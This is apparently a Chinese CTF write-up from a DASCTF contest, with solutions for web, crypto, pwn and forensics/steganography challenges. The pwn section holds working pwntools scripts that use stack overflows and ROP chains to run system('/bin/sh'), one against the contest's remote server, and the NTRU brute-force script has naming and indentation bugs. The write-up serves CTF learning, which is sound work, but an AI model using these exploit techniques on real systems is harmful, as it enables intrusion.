# WEB

## Ez to getflag 题

发现有查询功能，所以一开始查flag无果，转念一想如果是linux服务器的话应该再根目录下，所以在次查询/flag，获得flag


# crypto

## babysign

本题使用椭圆曲线数字签名算法，由题意得secret由flag生成，所以需要通过加密方式反推求secret（即k）的公式

已知：s= * (m + n*r) (mod gen)

则：k= *(s*n-m) (mod gen)

**EXP**

```python
import hashlib
import gmpy2
from ecdsa.ecdsa import *
import ecdsa
from Crypto.Util.number import *

R=0x7b35712a50d463ac5acf7af1675b4b63ba0da23b6452023afddd58d4891ef6e5
S=0xa452fc44cc36fa6964d1b4f47392ff0a91350cfd58f11a4645c084d56e387e5c
msg=b'welcome to ecdsa'
n=57872441580840888721108499129165088876046881204464784483281653404168342111855
gen = ecdsa.NIST256p.generator.order()
m= int(hashlib.sha256(msg).hexdigest(), 16)
k= ((S*n-m)*gmpy2.invert(R,gen)) % gen
print(long_to_bytes(k))
```


## easyNTRU

本题的考点是NTRU，由于e和h为多项式且项数均为10项并不多，所以可以考虑采用爆破的方法解出m

**EXP**

```python
from Crypto.Hash import SHA3_256
from Crypto.Cipher import AES
import sys
from Crypto.Util.Padding import unpad

N = 10
p = 3
q = 512
d = 3
R.<x> = ZZ[]
c=b'\xb9W\x8c\x8b\x0cG\xde\x7fl\xf7\x03\xbb9m\x0c\xc4L\xfe\xe9Q\xad\xfd\xda!\x1a\xea@}U\x9ay4\x8a\xe3y\xdf\xd5BV\xa7\x06\xf9\x08\x96="f\xc1\x1b\xd7\xdb\xc1j\x82F\x0b\x16\x06\xbcJMB\xc8\x80'
Num = [-1, 0, 1]
for i1 in Num:
    for i2 in Num:
       for i3 in Num:
          for i4 in Num:
              for i5 in Num:
                 for i6 in Num:
                    for i7 in Num:
                       for i8 in Num:
                          for i9 in Num:
                             for i10 in Num:
                                 result = [i1, i2, i3, i4, i5, i6, i7, i8, i9, i10]
                                 m = R(result)
                                 sha3 = SHA3_256.new()
                                 Key = sha3.update(bytes(str(m).encode('utf-8'))).digest()
                                 dypher = AES.new(key, AES.MODE_ECB)
                                 try:
                                    flag = unpad(dypher.decrypt(c), 32)
                                    if  flag.startswith(b'DASCTF'):
                                          print(flag)
                                          sys.exit(0)
                                  except:
                                     pass

```


# pwn

## eyfor题



上图中的代码存在负数绕过，导致可以向`nbytes`中写入任意长度的内容造成栈溢出。

将“/bin/sh”写入`nbytes`中，通过`strncpy()`复制到`buf`中。



`buf`在bss段上，函数也提供了`_system`，所以可以让`buf`作为`_system`参数。

**EXP**

```python
from pwn import *
io = remote('node4.buuoj.cn', 27055)
#io = process('./pwn4')
elf = ELF('./pwn4')
context.log_level = "debug"
ret = 0x400915
pop_rdi = 0x0400983
io.recv()
io.send(b'1')

io.recv()
io.sendline(b'1')
io.recv()
io.sendline(b'2')
io.recv()
io.sendline(b'3')
io.recv()
io.sendline(b'4')

io.sendline(b'-1')
#io.recv()
payload = b'/bin/sh\x00'.ljust(0x38, b'a') + p64(ret) + p64(pop_rdi) +  p64(0x06010C0)+ p64(elf.symbols["system"])
#gdb.attach(io)
#pause()
io.sendline(payload)
io.interactive()
```


## MyCanary2题



分析上诉代码可知，按case1、case2、case3的执行顺序即可绕过`if`的判断，并且case1存在栈溢出漏洞。




程序存在`_system`和`/bin/sh`，可以覆盖返回地址并调用执行`system(/bin/sh)`获得shell


**EXP**

```python
from pwn import *

io = process('./MyCanary2')
#io = remote('node4.buuoj.cn', 28231)
elf = ELF('./MyCanary2')
system_plt = elf.symbols["system"]
pop_rdi = 0x0401613
ret = 0x040101a

io.recvuntil('Input your choice\n')
io.sendline(b'1')
payload = b'a'*0x6c + p32(0) + b'a'*8 + p64(pop_rdi) + p64(0x04020F0) + p64(system_plt)
io.recvuntil('Show me the code:\n')
io.send(payload)
gdb.attach(io)
pause()
io.recvuntil('Input your choice\n')
io.sendline(b'2')
io.recvuntil(b'But now, I have a new Secret.')
io.recvuntil('Input your choice\n')
io.sendline(b'3')

io.interactive()
```


# misc

## ez_forenisc题

下载附件

得到pc.raw和pc.wmdk，，放入取证大师中发现是个bitlocker加密的磁盘

立马转移注意到pc.raw上，是个内存镜像。直接用EFDD梭出恢复密钥

060841-363737-551397-247489-310134-034430-598312-215853

用取证大师进行解密



发现有个压缩包，导出，发现是张png图片，用stegsolve发现了rgb的0通道藏了压缩包



保存下来，发现压缩包损坏，直接使用winrar自带的修复功能修复，发现是个加密压缩包

看到了压缩包还有提示



看来要找账户密码，用passwarekit也能梭出来



550f37c7748e

解压得到八进制的数




转为16进制是得到key是358daebef0b7d，貌似是什么的一个密钥，继续看看pc.raw

用volatility分析一下，发现screenshot的截图有信息


 

提示了thes3cret，filescan查找该关键字



发现了个文件，给它dump下来



记事本打开发现密文



接下来就是进行aes解密了



DASCTF{2df05d6846ea7a0ba948da44daa7dc88}


## 哆来咪发唆拉西哆

首先得到一个pdf，binwalk后有个zip，解压后有个txt



发现这应该是圆周率的后面的位数








前一组都是255而后一组数都是211，根据数组的特性用脚本将数组转化

```python
import re

 

pi='3.14159265358979323846264338327950288419716939937510582097494459230781640628620899862803482534211706798214808651328230664709384460955058223172535940812848111745028410270193852110555964462294895493038196442881097566593344612847564823378678316527120190914564856692346034861045432664821339360............5225161050702705623526601276484830840761183013052793205427462865403603674532865105706587488225698157936789766974220575059683440869735020141020672358502007245225632651341055924019027421624843914035998953539459094407046912091409387001264560016237428802109276457931065792295524988727584610126483699989225695968815920560010165525637567875678'

with open('whatisthis.txt','rb')as f:

  lines=f.readlines()

for line in lines:

  line=str(line,encoding='utf-8',errors='strict')

  a = []

  a = re.findall("\d+\.?\d*", line)

  list=[]

  for i in range(len(a)):

   s=int(a[i])

   list.append(pi[s:s+3:])

  str_dec=''

  for i in range(0,len(list[1])):

   s= list[0][i]

   if list[0][i]==list[1][i] and list[0][i]==list[2][i] and list[0][i]==list[3][i]:

​     str_dec+=s

  str_hex=hex(int(str_dec))

  str_hex=str_hex[2:4:]

  if len(str_hex)==1:

   str_hex='0'+str_hex

  print(str_hex,end='')
```




运行得到

`ffd8ffe11b0245786966000049492a00080000000c000001030001000000ee02000001010300010000001a02000002010300030000009e0000000601030001000000020000001201030001000000010000001501030001000000030000001a01050001000000a40000001b01050001000000ac000000280103000100000002000000310102001e000000b40000003201020014000000d20000006987040001000000e80000002001000008000800080080fc0a001027000080fc0a001027000041646f62652050686f746f73686f7020435336202857696e646f77732900323032323a30343a32382031303a31343a35380000000400009007000............55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec55d8abb15762aec593b15762c5d8abb15762aff00ffd9`



 

转化后得到一张图片，保存后发现



flag是10000后缺失的30个数字

DASCTF{566722796619885782794848855834}

 